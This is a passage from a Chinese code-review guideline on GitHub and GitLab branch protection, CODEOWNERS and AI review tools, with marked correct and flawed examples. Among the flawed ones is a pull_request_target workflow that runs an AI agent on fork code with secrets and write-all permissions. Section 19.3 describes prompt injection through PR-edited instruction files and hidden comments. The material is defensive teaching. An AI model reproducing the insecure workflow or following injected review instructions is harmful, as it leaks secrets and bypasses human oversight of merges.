| 核准人數 | `required_approving_review_count` | 核准規則的 `approvals_required` | `CR-GOV-001`、`CR-PRC-004` |
| 作者不能核准自己 | 平台預設（作者不能核准自己的 PR） | `merge_requests_author_approval = false` | `CR-GH-001`、`CR-GL-001` |
| 提交者不能核准 | Require approval of the most recent reviewable push | `merge_requests_disable_committers_approval = true` | `CR-PRC-005` |
| 新提交使核准失效 | `dismiss_stale_reviews_on_push` | `reset_approvals_on_push` | `CR-PRC-005` |
| 指定路徑的必要審查者 | CODEOWNERS＋`require_code_owner_review`；Required reviewers（beta） | CODEOWNERS sections（Premium）、核准規則 | `CR-GH-002`、`CR-GL-002` |
| 討論必須解決 | `required_review_thread_resolution` | `only_allow_merge_if_all_discussions_are_resolved` | `CR-PRC-001` |
| CI 必須通過 | `required_status_checks` | `only_allow_merge_if_pipeline_succeeds` | `CR-AUTO-001` |
| 合併前以最新主幹驗證 | Merge queue | Merge trains（Premium）＋merged results pipelines | `CR-PRC-009` |
| 合併方式 | `allowed_merge_methods` | Merge method、`squash_option` | `CR-PRC-010` |
| 核准前重新驗證身分 | — | `require_reauthentication_to_approve` | — |
| 安全掃描結果阻擋合併 | Rulesets「Require code scanning results」 | Merge request approval policies（Ultimate） | `CR-SEC-001` |
| AI 審查 | Copilot code review（Ruleset 規則 `copilot_code_review`） | GitLab Duo Code Review／Code Review Flow | 第 19 章 |

### 18.2 GitHub：Rulesets

GitHub 有兩種保護分支的方式：較早的**分支保護規則**（branch protection rules）與較新的 **Rulesets**。Rulesets 可以在組織層級套用到多個程式庫、可以有多個規則集疊加、可以設定略過對象（bypass），並提供「Rule insights」記錄每次略過。新的設定應使用 Rulesets。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-GH-001` | 必須 | GitHub 程式庫必須以 Ruleset（建議在組織層級）保護預設分支與發行分支：要求 PR、至少一位核准、新提交使核准失效或要求最後推送者以外的人核准、要求 CODEOWNER 審查、討論必須解決、必要狀態檢查、禁止強制推送與刪除 | 🤖 `gh api repos/{owner}/{repo}/rules/branches/main`；🧪 以測試 PR 驗證 |
| `CR-GH-002` | 必須 | Ruleset 的略過對象（bypass actors）只能是指定的緊急應變角色或團隊，模式應為 `pull_request`（只能在 PR 中略過，留下紀錄）；不得把所有管理員設為 `always` 略過 | 🤖 API 檢查 `bypass_actors`；👁 每季檢視 Rule insights |

```json
{
  "name": "protect-main",
  "target": "branch",
  "enforcement": "active",
  "bypass_actors": [
    { "actor_id": 4123456, "actor_type": "Team", "bypass_mode": "pull_request" }
  ],
  "conditions": {
    "ref_name": { "include": ["~DEFAULT_BRANCH", "refs/heads/release/*"], "exclude": [] }
  },
  "rules": [
    { "type": "deletion" },
    { "type": "non_fast_forward" },
    {
      "type": "pull_request",
      "parameters": {
        "required_approving_review_count": 1,
        "dismiss_stale_reviews_on_push": true,
        "require_code_owner_review": true,
        "require_last_push_approval": true,
        "required_review_thread_resolution": true,
        "allowed_merge_methods": ["squash"]
      }
    },
    {
      "type": "required_status_checks",
      "parameters": {
        "strict_required_status_checks_policy": false,
        "required_status_checks": [
          { "context": "build" },
          { "context": "codeql" },
          { "context": "review" }
        ]
      }
    },
    {
      "type": "merge_queue",
      "parameters": {
        "check_response_timeout_minutes": 60,
        "grouping_strategy": "ALLGREEN",
        "max_entries_to_build": 5,
        "max_entries_to_merge": 5,
        "merge_method": "SQUASH",
        "min_entries_to_merge": 1,
        "min_entries_to_merge_wait_minutes": 5
      }
    }
  ]
}
```

```bash
# ✅ CR-GH-001：以上面的 JSON（存為 ruleset-protect-main.json）建立程式庫層級的 Ruleset，並確認套用結果
gh api --method POST repos/example/order-service/rulesets --input ruleset-protect-main.json
gh api repos/example/order-service/rules/branches/main \
  --jq '.[] | select(.type == "pull_request") | .parameters'
```

```json
{
  "name": "protect-main",
  "target": "branch",
  "enforcement": "evaluate",
  "bypass_actors": [
    { "actor_id": null, "actor_type": "OrganizationAdmin", "bypass_mode": "always" }
  ],
  "conditions": { "ref_name": { "include": ["~DEFAULT_BRANCH"], "exclude": [] } },
  "rules": [
    {
      "type": "pull_request",
      "parameters": {
        "required_approving_review_count": 0,
        "dismiss_stale_reviews_on_push": false,
        "require_code_owner_review": false,
        "require_last_push_approval": false,
        "required_review_thread_resolution": false
      }
    }
  ]
}
```

```text
❌ CR-GH-001、CR-GH-002：上面第二個 JSON 的三個問題
enforcement: evaluate                       → 只記錄、不阻擋（evaluate 模式需要 GitHub Enterprise）
required_approving_review_count: 0          → 不需要任何人核准
bypass_actors: OrganizationAdmin / always   → 所有組織管理員隨時可以略過，且不必經過 PR
→ 畫面上看起來「有 Ruleset」，實際上沒有任何保護。
```

#### 🔍 18.2 審查與驗證

- **自動檢查：** 附錄 F.3 以 GitHub 官方的 REST API 描述檔（`rest-api-description`）中的 JSON Schema 驗證本節的 Ruleset JSON；以 `gh api repos/{owner}/{repo}/rules/branches/main` 讀取實際生效的規則（多個 Ruleset 會合併）。
- **人工審查問題：**
  1. `enforcement` 是 `active` 嗎？`evaluate` 只會記錄不會阻擋。
  2. 必要狀態檢查的名稱（`context`）與工作流程中的工作名稱一致嗎？名稱不一致時檢查會永遠「等待中」。
  3. 略過對象有誰？最近一季有多少次略過？每次都有例外紀錄嗎？
- **AI 常見錯誤：** AI 產生的 Ruleset JSON 常混用分支保護 API 的欄位名稱（例如 `required_pull_request_reviews`、`enforce_admins`），這些欄位在 Rulesets API 中不存在，建立時會失敗或被忽略。

### 18.3 GitHub：CODEOWNERS

CODEOWNERS 檔案的語法與 `.gitignore` 相似，但有幾個重要差異，也是最常寫錯的地方：

| 規則 | 說明 |
| --- | --- |
| 檔案位置 | `.github/CODEOWNERS`、根目錄 `CODEOWNERS` 或 `docs/CODEOWNERS`，依序找到第一個為準；必須在 PR 的**目標分支**上 |
| 最後符合的規則生效 | 一個檔案符合多行時，只有**最後一行**的擁有者生效，不會累加 |
| 一行一個樣式 | 一行只能有一個路徑樣式，後面接一個或多個擁有者；`*.yml *.yaml @team` 會把 `*.yaml` 當成擁有者而使整行失效 |
| 不支援的語法 | 不支援 `!` 否定、`[ ]` 字元範圍、以 `\` 跳脫 `#` |
| 擁有者 | `@user`、`@org/team` 或 email；擁有者必須對程式庫有寫入權限，團隊必須是可見的組織團隊 |
| 多個擁有者 | 同一行的多個擁有者中，**任一位**核准即滿足 CODEOWNER 審查 |
| 無效的行 | 語法錯誤的行會被略過，可用 `gh api repos/{owner}/{repo}/codeowners/errors` 查詢 |
| 檔案大小 | 不得超過 3 MB |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-GH-003` | 必須 | CODEOWNERS 必須放在 `.github/CODEOWNERS`，並把 `.github/` 目錄（含 CODEOWNERS 本身與工作流程）指定給平台管理團隊；Ruleset 必須開啟 `require_code_owner_review` | 🤖 附錄 C.1 的檢查腳本；🤖 `codeowners/errors` API |
| `CR-GH-004` | 必須 | CODEOWNERS 的每一行只能有一個路徑樣式；通用規則寫在前面、具體規則寫在後面；同一路徑需要多個團隊時，所有擁有者必須寫在同一行 | 🤖 附錄 C.1 的檢查腳本；🤖 `codeowners/errors` API |

```text
# ✅ CR-GH-003、CR-GH-004：.github/CODEOWNERS（通用規則在前，具體規則在後，一行一個樣式）
*                                         @example/order-team

# 資料庫遷移：同一行列出兩個團隊，任一團隊的成員核准即可
/src/main/resources/db/migration/         @example/order-team @example/dba

# 設定檔：每種副檔名各寫一行
*.yml                                     @example/order-team @example/platform-admins
*.yaml                                    @example/order-team @example/platform-admins

# 安全相關
/src/main/java/com/example/order/security/  @example/appsec

# 平台設定與 CODEOWNERS 本身（放在最後，確保不被前面的規則覆蓋）
/.github/                                 @example/platform-admins
/.github/CODEOWNERS                       @example/platform-admins @example/appsec
```

```text
# ❌ CR-GH-004：v2.0 的 CODEOWNERS 寫法
# 1. 一行兩個樣式：「*.yaml」會被當成擁有者，整行無效
*.yml *.yaml *.properties @devops @tech-lead

# 2. 具體規則寫在前面、通用規則寫在後面：所有檔案（包括 /backend/）最後都只由 @senior-dev 擁有
/backend/ @backend-team @architect
* @senior-dev @tech-lead

# 3. GitHub 不支援 ! 否定樣式，這一行會被略過
!/docs/
```

#### 🔍 18.3 審查與驗證

- **自動檢查：** 附錄 C.1 的 `check_codeowners.py` 會檢查一行多個樣式、`!` 否定、`[ ]` 範圍、擁有者格式，以及「通用規則出現在具體規則之後」；附錄 F.3 記錄了它對本節 ✅ 與 ❌ 範例的實際輸出。合併到預設分支後，再以 `gh api repos/{owner}/{repo}/codeowners/errors` 確認沒有錯誤。
- **人工審查問題：**
  1. 修改 CODEOWNERS 的 PR，是否由平台管理團隊核准？
  2. 對每個重要路徑，從檔案最後一行往前找第一個符合的樣式，擁有者是預期的團隊嗎？
- **AI 常見錯誤：** AI 寫 CODEOWNERS 時常把多個樣式寫在同一行、使用 `!` 否定（GitLab 支援但 GitHub 不支援），或把 GitLab 的 `[Section]` 語法用在 GitHub。

### 18.4 GitLab：核准設定與受保護分支

GitLab 的核准規則（approval rules）、CODEOWNERS 與 merge trains 需要 Premium 以上版本；Free 版只能設定「選用」的核准。以下設定以專案層級說明，建議在群組層級設定並向下繼承（Settings → Merge requests → Merge request approvals）。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-GL-001` | 必須 | GitLab 專案必須設定：受保護分支禁止直接推送（Allowed to push and merge = No one 或只允許合併）、作者不能核准自己的 MR、提交者不能核准、新提交使核准失效、不允許在 MR 中覆寫核准規則、管線必須成功、所有討論必須解決 | 🤖 `glab api projects/:id/approvals`、`glab api projects/:id`；🧪 以測試 MR 驗證 |

```bash
# ✅ CR-GL-001：以 API 設定專案的核准與合併條件（需要 Maintainer 以上權限；:id 為專案 ID 或 URL 編碼的路徑）
glab api --method PUT "projects/:id/approvals" \
  -f reset_approvals_on_push=true \
  -f merge_requests_author_approval=false \
  -f merge_requests_disable_committers_approval=true \
  -f disable_overriding_approvers_per_merge_request=true \
  -f require_reauthentication_to_approve=false

glab api --method PUT "projects/:id" \
  -f only_allow_merge_if_pipeline_succeeds=true \
  -f only_allow_merge_if_all_discussions_are_resolved=true \
  -f merge_pipelines_enabled=true \
  -f merge_trains_enabled=true \
  -f squash_option=default_on

# 建立一條套用到所有受保護分支、需要 1 位核准的規則
glab api --method POST "projects/:id/approval_rules" \
  -f name="Team review" \
  -f approvals_required=1 \
  -f applies_to_all_protected_branches=true \
  -F 'group_ids=[4567]'
```

```text
❌ CR-GL-001：為了「加快合併」而放寬的設定（GitLab 預設是作者不能核准、新提交移除核准；提交者預設可以核准）
merge_requests_author_approval = true               → 作者可以核准自己的 MR
reset_approvals_on_push = false                     → 核准後推送的新提交不需要重新核准
merge_requests_disable_committers_approval = false  → 在 MR 中推送過提交的人仍可核准（預設值，應改為 true）
disable_overriding_approvers_per_merge_request = false → 作者可以在 MR 中把核准人數改為 0
only_allow_merge_if_pipeline_succeeds = false       → 管線失敗仍可合併
```

#### 🔍 18.4 審查與驗證

- **自動檢查：** `glab api "projects/:id/approvals"` 與 `glab api "projects/:id"` 讀取設定，與本節的值比對；GitLab 的稽核事件記錄核准設定的變更。
- **人工審查問題：**
  1. 核准設定是在群組層級設定並鎖定，還是每個專案自行設定？
  2. 版本是否為 Premium 以上？Free 版無法強制核准，必須以其他控制補足（0.6 的豁免流程）。
- **AI 常見錯誤：** AI 常使用已淘汰的欄位（例如 `approvals_before_merge`、`require_password_to_approve`）；GitLab 16.9 起應使用 `require_reauthentication_to_approve`，核准人數則以核准規則設定。

### 18.5 GitLab：CODEOWNERS 區段

GitLab 的 CODEOWNERS 支援**區段**（sections）：每個區段獨立計算，一個檔案可以同時需要多個區段的擁有者核准。這和 GitHub「最後一個符合的規則生效」不同。

| 語法 | 意義 |
| --- | --- |
| `[區段名稱]` | 必要區段（受保護分支上必須有該區段的擁有者核准） |
| `^[區段名稱]` | 選用區段（會顯示擁有者，但不要求核准） |
| `[區段名稱][2]` | 該區段需要 2 位擁有者核准 |
| `[區段名稱] @group` | 區段的預設擁有者，區段內沒有指定擁有者的路徑都由它擁有 |
| `!路徑` | 排除：符合的檔案在該區段不需要核准（GitLab 17.11 起正式提供） |
| `@@developer`、`@@maintainer` | 以角色指定擁有者（只限專案的直接成員，GitLab 17.9 起正式提供） |
| 同一區段內 | 一個檔案符合多行時，只有最後一行生效 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-GL-002` | 必須 | GitLab 專案應以 CODEOWNERS 區段表達高風險路徑的必要審查與核准人數（`[區段][N]`）；選用區段（`^`）不得用於安全、資料庫遷移、CI 設定等高風險路徑 | 🤖 附錄 C.1 的檢查腳本；🧪 以測試 MR 確認需要的核准 |
| `CR-GL-003` | 必須 | `.gitlab/` 目錄、`.gitlab-ci.yml` 與 CODEOWNERS 本身必須放在必要區段，由平台管理團隊擁有 | 🤖 附錄 C.1 的檢查腳本 |

```text
# ✅ CR-GL-002、CR-GL-003：.gitlab/CODEOWNERS
[Default] @example/order-team
*

[Database][2] @example/dba @example/order-team
/src/main/resources/db/migration/

[Security][2] @example/appsec @example/order-team
/src/main/java/com/example/order/security/

[Platform] @example/platform-admins
/.gitlab/
/.gitlab-ci.yml

^[Documentation] @example/tech-writers
/docs/
*.md
```

```text
# ❌ CR-GL-002：v2.0 的 GitLab CODEOWNERS 寫法
# 1. 「(2)」不是核准人數的語法，應寫成 [Backend Team][2]；而且 ^ 讓區段變成選用，與「需要 2 位」互相矛盾
^[Backend Team] @backend-group (2)
# 2. 安全路徑放在選用區段，沒有任何人需要核准
^[Security]
**/auth/** @security-team
```

#### 🔍 18.5 審查與驗證

- **自動檢查：** GitLab 在 CODEOWNERS 有語法錯誤時會在檔案頁面顯示錯誤；附錄 C.1 的檢查腳本會在 CI 檢查區段標頭格式、選用區段中的高風險路徑，以及 `.gitlab/` 是否有擁有者。
- **人工審查問題：**
  1. 每個高風險路徑屬於哪些區段？這些區段是必要的嗎？各需要幾位核准？
  2. 區段的預設擁有者與行內擁有者是否符合預期？
- **AI 常見錯誤：** AI 常把 GitHub 與 GitLab 的 CODEOWNERS 語法混用：在 GitLab 以為「最後一行覆蓋全部」（實際上各區段分別計算）、在 GitHub 使用 `[Section]`。

### 18.6 範本與自動化設定

| 項目 | GitHub | GitLab |
| --- | --- | --- |
| PR／MR 範本 | `.github/pull_request_template.md`；多個範本放在 `.github/PULL_REQUEST_TEMPLATE/` | `.gitlab/merge_request_templates/*.md`；名為 `Default.md` 的範本會自動套用 |
| 議題範本 | `.github/ISSUE_TEMPLATE/` | `.gitlab/issue_templates/` |
| 自動指派審查者 | CODEOWNERS＋團隊的 Code review assignment | CODEOWNERS（Premium）、核准規則 |
| 依賴更新機器人 | Dependabot（`.github/dependabot.yml`） | Renovate（自行架設或 Mend 托管） |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-GL-004` | 應該 | GitLab 專案應提供 `.gitlab/merge_request_templates/Default.md`，內容與 4.2 的 PR 範本一致；範本中的快速操作（quick actions）只能用於標籤與指派，不得用於核准或合併 | 👁 審查範本內容 |

```markdown
<!-- ✅ CR-GL-004：.gitlab/merge_request_templates/Default.md（內容同 4.2，最後加上安全的快速操作） -->
## 目的

## 變更內容

## 如何驗證

## 風險與影響
- 風險等級：

## 審查重點

## AI 使用揭露

/label ~"needs-review"
```

```markdown
<!-- ❌ CR-GL-004：在範本中使用 /approve、/merge，任何套用範本的 MR 都會被自動核准或排入合併 -->
## 目的

/approve
/merge
```

#### 🔍 18.6 審查與驗證

- **自動檢查：** 可以在 CI 檢查 `.gitlab/merge_request_templates/*.md` 不含 `/approve`、`/merge`、`/unapprove`。
- **人工審查問題：** 範本的段落與 4.2 一致嗎？範本是否放在預設分支上？
- **AI 常見錯誤：** v2.0 的 MR 範本被放在 `yaml` 程式碼區塊中，並以 `/assign @tech-lead` 把所有 MR 指派給同一人；AI 產生範本時也常加上 `/merge` 以「節省步驟」。

## 19. AI 輔助審查與審查 AI 產出

AI 改變了程式碼審查的兩端。一端是**程式碼由 AI 產生**：開發者用 Copilot、Claude Code、GitLab Duo 等工具產出程式碼的速度大幅提升，審查的負擔隨之增加。另一端是**審查由 AI 協助**：GitHub Copilot code review、GitLab Duo Code Review、Claude Code Code Review 能在幾分鐘內對 PR 提出意見。本章規範兩者：如何使用 AI 審查工具，以及如何審查 AI 產生的程式碼。

研究提醒我們不要高估 AI 的效果。METR 在 2025 年的隨機對照試驗中發現，熟悉自己專案的資深開源開發者使用 AI 工具時，完成任務的時間反而**增加了 19%**，而他們事前預期會快 24%、事後仍自認快了 20%。DORA 2025 年的報告則指出 AI 提高了產出量，但在基礎不穩固的團隊中也提高了不穩定性：AI 是放大器，會放大團隊既有的優點與缺點。審查流程是決定 AI 被放大成哪一種結果的關鍵。

### 19.1 原則：人對合併負責

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AI-001` | 必須 | 每一個合併到受保護分支的變更，都必須有一位人類作者為其內容負責，且至少一位人類審查者核准；AI 產生程式碼或 AI 提出審查意見，都不改變這個責任 | 🤖 平台核准紀錄；👁 抽查 |
| `CR-AI-002` | 必須 | AI 審查工具的結果不得計入必要核准人數：GitHub 不得啟用「Copilot approvals」使 Copilot 的核准滿足必要核准；不得讓 AI 代理以具核准權限的帳號核准 PR／MR；AI 工具的檢查結果可以作為參考性的狀態檢查，但不能取代人工核准 | 🤖 檢查 Copilot 設定與 Ruleset；🤖 API 列出核准者是否為機器人帳號 |

```text
✅ CR-AI-001：AI 代理建立的 PR，仍由人類負責與核准
PR #1095 fix(order): 取消 API 回傳 Problem Details
  建立者：Copilot（cloud agent，依議題 #1093 的指派）
  負責人（作者角色）：@kevin —— 已逐行讀過、在本機執行測試、補上 409 的測試
  審查：Copilot code review（COMMENTED，3 則意見，已逐則回覆）
  審查：@amy APPROVED（人類核准，計入必要人數）
```

```text
✅ CR-AI-002：各工具與核准的關係（2026-10 查證）
GitHub Copilot code review   預設不計入必要核准；「Copilot approvals」（公開預覽）開啟後可以計入 → 企業設定應保持關閉
GitLab Duo Code Review       以 @GitLabDuo 身分留下意見，不是核准者
Claude Code Code Review      只留下意見與中性（neutral）的檢查結果，不會核准也不會阻擋合併
Ruleset：Copilot 以自己的身分開啟、未歸屬於任何人的 PR，預設需要比設定值多一位核准（公開預覽）
```

```text
❌ CR-AI-002：以 AI 核准取代人工審查
Organization settings → Copilot → Code review → Copilot approvals: Enabled
Ruleset protect-main：required_approving_review_count = 1
→ Copilot 審查後核准，PR 即可合併，整個過程沒有任何人看過程式碼。
```

#### 🔍 19.1 審查與驗證

- **自動檢查：** 以 `gh api repos/{owner}/{repo}/pulls/{n}/reviews --jq '.[] | select(.state=="APPROVED") | .user.login'` 列出核准者，確認至少一位不是機器人帳號（`[bot]` 結尾或 `Copilot`）；附錄 C.2 的報表會統計「只有機器人核准」的合併。
- **人工審查問題：**
  1. 這個 PR 的人類作者是誰？若由 AI 代理建立，負責的人是誰（CR-AI-005）？
  2. 核准者中有沒有人類？
- **AI 常見錯誤：** AI 代理被授予過大的權限時，可能「建議」或直接執行合併；AI 產生的流程文件也常寫「AI 審查通過即可合併」。

### 19.2 AI 審查工具的選擇

| 項目 | GitHub Copilot code review | GitLab Duo Code Review／Code Review Flow | Claude Code Code Review | Claude Code `/code-review`（本機）與 GitHub Action |
| --- | --- | --- | --- | --- |
| 平台 | GitHub（含 IDE、CLI）；Azure DevOps 公開預覽 | GitLab | GitHub（GitHub Enterprise Server 另見官方文件） | 本機對 GitHub PR、GitLab MR 皆可；Action 用於 GitHub |
| 觸發 | 手動指派、使用者或 Ruleset 自動審查；可設定每次推送與草稿 | 指派 `@GitLabDuo`、自動審查 | MR 建立後一次、每次推送或手動（`@claude review`） | 開發者在本機執行；Action 依工作流程事件 |
| 自訂指示 | `.github/copilot-instructions.md`、`.github/instructions/*.instructions.md`、`AGENTS.md`、skills | `.gitlab/duo/mr-review-instructions.yaml`（專案、群組或執行個體） | `REVIEW.md`、`CLAUDE.md` | `CLAUDE.md`；Action 以 `prompt` 指定 |
| 指示的讀取來源 | **PR 的來源分支**（head） | 專案或範本專案 | 程式庫 | Action 處理 PR 時會從**目標分支**還原 `CLAUDE.md` 與 `.claude/` |
| 嚴重度 | 不分級 | 依指示 | 🔴 Important、🟡 Nit、🟣 Pre-existing | 依提示 |
| 計入核准 | 預設不計入；Copilot approvals 可計入 | 否 | 否（檢查結果固定為 neutral） | 否 |
| 費用（2026-10） | 依 AI credits；Lite 約 0.05–1 美元、Balanced 約 0.25–5 美元／次 | Code Review Flow 使用 GitLab Credits；Duo Code Review 需 Duo Enterprise | 平均 15–25 美元／次，依 PR 大小 | 依 API 使用量 |
| 適用 | GitHub 上的全面導入 | GitLab 上的全面導入 | 高風險程式庫的深度審查 | 送審前的自我審查（CR-AUT-006）、自建流程 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AI-003` | 應該 | 每個程式庫應選定一個主要的 AI 審查工具並撰寫審查指示，內容至少包含：嚴重度的定義（對應 6.1 的分級）、不需要報告的項目（CI 已檢查的格式與 lint、自動產生的檔案）、必須檢查的專案規則、意見數量上限 | 👁 審查指示檔的內容；🤖 指示檔存在 |

```markdown
<!-- ✅ CR-AI-003：.github/copilot-instructions.md（GitHub Copilot 的程式庫層級指示，與本指引一致） -->
# 審查指示（order-service）

## 分級
- 以 Conventional Comments 標示意見：issue (blocking)、suggestion (non-blocking)、nitpick、question。
- 只有會造成錯誤行為、資料外洩、授權繞過或無法回滾的問題才能標為 blocking。

## 不要報告
- 格式、import 順序、命名風格：CI 已由 Spotless、Checkstyle 檢查。
- `src/main/java/**/generated/**` 與 `*.lock` 檔案。

## 一定要檢查
- 以 ID 存取訂單的查詢，條件中必須包含 customerId（code review 指引 CR-SEC-004）。
- 外部 HTTP 呼叫必須有逾時（CR-PRF-004）。
- 交易中不得呼叫外部服務（CR-COR-012）。
- 行為變更必須附測試，且測試要有斷言（CR-TST-001、CR-TST-004）。

## 數量
- 每次審查最多 5 則 nitpick；超過時在摘要中寫「另有 N 則類似項目」。
```

```markdown
---
applyTo: "src/main/resources/db/migration/**/*.sql"
---
<!-- ✅ CR-AI-003：.github/instructions/migration.instructions.md（只套用到資料庫遷移腳本） -->
審查資料庫遷移時：
- 已存在的遷移腳本不得修改，修正必須新增腳本（CR-DB-001）。
- 刪除、改名欄位或改變型別時，確認前一版程式碼不再使用（CR-DB-003）。
- 大型資料表的索引必須使用 CREATE INDEX CONCURRENTLY，且單獨放在一個遷移檔（CR-DB-004）。
```

```markdown
<!-- ✅ CR-AI-003：REVIEW.md（Claude Code Code Review 的審查指示，放在程式庫根目錄） -->
# Review instructions

## What Important means here
Reserve Important for findings that would break behavior, leak data, bypass authorization,
or block a rollback. Style, naming and refactoring suggestions are Nit at most.

## Do not report
- Anything CI already enforces: Spotless formatting, Checkstyle, PMD, ESLint, type errors
- Generated files under `src/main/java/**/generated/` and any `*.lock` file

## Always check
- Queries that load an order by id must also filter by customerId (CR-SEC-004)
- Every new outbound HTTP client has connect and read timeouts (CR-PRF-004)
- Flyway migrations are never edited after being merged (CR-DB-001)

## Cap the nits
Report at most five Nits per review; summarize the rest as a count.
```

```yaml
# ✅ CR-AI-003：.gitlab/duo/mr-review-instructions.yaml（GitLab Duo 的專案層級審查指示）
instructions:
  - name: Java 後端
    fileFilters:
      - "src/main/java/**/*.java"
      - "!src/main/java/**/generated/**"
    instructions: |
      1. 以 ID 存取訂單的查詢，條件中必須包含 customerId（CR-SEC-004）。
      2. 外部 HTTP 呼叫必須設定逾時（CR-PRF-004）。
      3. 不要報告格式與命名問題，CI 已檢查。
  - name: 資料庫遷移
    fileFilters:
      - "src/main/resources/db/migration/**/*.sql"
    instructions: |
      1. 已合併的遷移腳本不得修改（CR-DB-001）。
      2. 大型資料表的索引使用 CREATE INDEX CONCURRENTLY（CR-DB-004）。
```

#### 🔍 19.2 審查與驗證

- **自動檢查：** CI 確認指示檔存在且為合法格式（YAML 以 schema 或 parser 驗證；Markdown 的 frontmatter 含 `applyTo`）。
- **人工審查問題：**
  1. AI 審查工具的指示和團隊的審查政策一致嗎？嚴重度的定義相同嗎？
  2. 同一個程式庫是否啟用了多個 AI 審查工具，造成重複的意見？
- **AI 常見錯誤：** 由 AI 產生的審查指示常常很長、很籠統（「確保程式碼品質良好」），反而稀釋了真正重要的規則。Claude Code 的文件也提醒：`REVIEW.md` 越長，最重要的規則越容易被稀釋。

### 19.3 AI 審查工具的安全

導入 AI 審查工具，等於在審查流程中加入一個會讀取 PR 內容、並依指示行動的參與者。這帶來新的風險：

| 風險 | 說明 | 對策 |
| --- | --- | --- |
| 指示檔被 PR 修改 | Copilot code review 讀取 **PR 來源分支**上的自訂指示；作者可以在同一個 PR 中修改 `copilot-instructions.md`，要求 AI「不要報告 SQL 注入」 | 以 CODEOWNERS 保護指示檔（CR-AI-006）；審查者特別注意指示檔的變更 |
| 提示注入（prompt injection） | PR 描述、程式碼註解或測試資料中藏有給 AI 的指令（例如 HTML 註解、不可見字元） | 不讓 AI 處理不可信來源（fork PR）的內容；AI 的結論需人工確認 |
| CI 中的 AI 代理取得秘密 | 在 `pull_request_target` 中檢出 PR 的程式碼並執行 AI 代理，PR 中的檔案可以影響代理的行為並接觸秘密 | 不在 `pull_request_target` 中把 PR 的程式碼檢出到工作目錄根目錄；最小權限；限制可用工具（CR-AI-009） |
| 資料外流 | 程式碼與指示被送到外部 AI 服務 | 確認合約與資料保存政策（零資料保存、區域）；指示檔不得含秘密 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AI-006` | 必須 | AI 審查與 AI 代理的指示檔（`.github/copilot-instructions.md`、`.github/instructions/`、`AGENTS.md`、`CLAUDE.md`、`REVIEW.md`、`.claude/`、`.gitlab/duo/`）必須由 CODEOWNERS 指定的團隊審查；指示檔中不得包含秘密或內部敏感資訊 | 🤖 CODEOWNERS；🤖 Gitleaks |
| `CR-AI-009` | 必須 | 在 CI 中執行 AI 代理時，必須宣告最小權限、固定 Action 版本、限制代理可使用的工具；不得在 `pull_request_target` 或 `workflow_run` 中把 PR 的程式碼檢出到工作目錄根目錄後執行代理；不得對 fork 的 PR 自動執行具有寫入權限或秘密的代理 | 🤖 zizmor；🤖 actionlint；👁 審查工作流程 |

```text
# ✅ CR-AI-006：.github/CODEOWNERS 中保護 AI 指示檔（片段）
/.github/copilot-instructions.md   @example/platform-admins @example/appsec
/.github/instructions/             @example/platform-admins @example/appsec
/AGENTS.md                         @example/platform-admins
/CLAUDE.md                         @example/platform-admins
/REVIEW.md                         @example/platform-admins @example/appsec
/.claude/                          @example/platform-admins
```

（片段：只截取 AI 指示檔的規則，完整檔案見 18.3。）

```yaml
# ✅ CR-AI-009：以 claude-code-action 在 PR 上執行 AI 審查；只處理同一程式庫的 PR、最小權限、限制工具
name: claude-review
on:
  pull_request:
    types: [opened, synchronize, ready_for_review]
permissions:
  contents: read
jobs:
  review:
    if: github.event.pull_request.draft == false && github.event.pull_request.head.repo.full_name == github.repository
    runs-on: ubuntu-latest
    permissions:
      contents: read
      pull-requests: write
      id-token: write
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          fetch-depth: 1
          persist-credentials: false
      - uses: anthropics/claude-code-action@6fed3ca145920b639991cb756090506e1bcaf515 # v1.0.245
        with:
          anthropic_api_key: ${{ secrets.ANTHROPIC_API_KEY }}
          prompt: |
            REPO: ${{ github.repository }}
            PR NUMBER: ${{ github.event.pull_request.number }}

            依 REVIEW.md 審查這個 PR。只報告會造成錯誤行為、資料外洩或授權繞過的問題，
            以 Conventional Comments 標示嚴重度。不要報告 CI 已檢查的格式問題。
            以 gh pr comment 留下摘要，以行內註解指出具體位置。
          claude_args: |
            --allowedTools "mcp__github_inline_comment__create_inline_comment,Bash(gh pr comment:*),Bash(gh pr diff:*),Bash(gh pr view:*)"
```

```yaml
# ❌ CR-AI-009：在 pull_request_target 中檢出 fork PR 的程式碼並執行 AI 代理，代理可以讀取秘密、
# PR 中的檔案（例如被修改的設定或腳本）可以影響代理的行為；而且權限過大、工具沒有限制
name: ai-review
on:
  pull_request_target:
permissions: write-all
jobs:
  review:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v7
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - uses: anthropics/claude-code-action@v1
        with:
          anthropic_api_key: ${{ secrets.ANTHROPIC_API_KEY }}
          allowed_non_write_users: "*"
          prompt: "Review this PR and fix any problems you find."
```

#### 🔍 19.3 審查與驗證

- **自動檢查：** zizmor 的 `dangerous-triggers`、`unpinned-uses`（預設模式即會報告），以及 `excessive-permissions`（需 `--persona pedantic`）；附錄 F.3 記錄了本節 ✅ 與 ❌ 範例的實際檢查結果。zizmor 不會檢查 `allowed_non_write_users` 這類 Action 專屬的危險參數，仍需人工審查。
- **人工審查問題：**
  1. 這個 PR 有沒有修改任何 AI 指示檔？修改內容會不會讓 AI 忽略某類問題？
  2. AI 代理在 CI 中能存取哪些秘密？能推送程式碼嗎？fork 的 PR 能觸發它嗎？
- **AI 常見錯誤：** 請 AI 產生「AI 審查工作流程」時，它常為了讓 fork PR 也能使用而改用 `pull_request_target`，並把 PR 的提交檢出到工作目錄。claude-code-action 的安全文件明確警告不要這樣做。

### 19.4 處理 AI 審查意見

AI 審查意見的價值取決於它的準確度。誤報（false positive）多的工具會讓團隊很快學會忽略它，連同真正的問題一起忽略。處理 AI 意見的原則是：**把它當成一位新同事的意見：可能是對的，但要驗證**。

